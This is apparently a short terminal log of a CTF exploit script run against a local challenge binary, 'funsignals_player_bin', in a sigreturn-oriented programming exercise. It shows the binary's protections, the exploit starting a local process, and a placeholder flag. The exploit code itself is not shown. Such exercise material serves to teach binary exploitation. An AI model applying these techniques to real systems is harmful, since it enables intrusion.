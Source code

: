 ```python
python exp.py 
[*] '/root/sploitfun/srop/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[+] Starting local process './funsignals_player_bin': pid 11751
[*] Switching to interactive mode
[*] Process './funsignals_player_bin' stopped with exit code 0 (pid 11751)
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```